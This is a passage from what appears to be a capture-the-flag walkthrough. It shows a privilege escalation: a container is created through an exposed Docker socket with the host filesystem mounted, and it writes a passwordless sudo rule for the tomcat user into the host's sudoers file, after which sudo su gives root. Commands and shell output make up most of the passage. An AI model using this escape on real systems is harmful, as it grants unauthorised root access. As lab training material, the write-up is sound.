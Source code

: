 ```
# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d

```

I’ll add a line to the end with the command:

```

echo "tomcat ALL=(ALL) NOPASSWD:ALL" >> /rootfs/etc/sudoers

```

In the one-liner:

```

root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "echo \"tomcat ALL=(ALL) NOPASSWD:ALL\" >> /rootfs/etc/sudoers"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost
/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"

```

Once I run that, back at a tomcat shell, I can `sudo su`:

```

tomcat@VirusBucket:/dev/shm$ sudo su
root@VirusBucket:/dev/shm#

```

## Beyond Root
